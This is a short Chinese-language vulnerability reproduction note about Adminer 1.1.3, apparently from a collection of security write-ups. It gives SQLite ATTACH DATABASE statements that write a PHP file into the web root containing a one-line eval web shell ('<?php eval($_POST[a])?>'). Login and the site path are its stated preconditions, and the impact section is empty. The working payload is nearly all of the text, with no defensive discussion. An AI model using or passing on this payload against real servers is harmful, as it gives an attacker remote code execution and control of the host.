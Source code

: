 # Adminers 1.1.3 （SQLite 3 写入一句话木马）

## 一、漏洞简介

需要登陆Adminers，并且需要知道网站的路径。

## 二、漏洞影响

## 三、复现过程

```html
ATTACH DATABASE 'z.php' AS t;create TABLE t.e (d text);/*

ATTACH DATABASE '/网站/路径/shell.php' AS t;insert INTO t.e (d) VALUES ('<?php eval($_POST[a])?>');/*
```
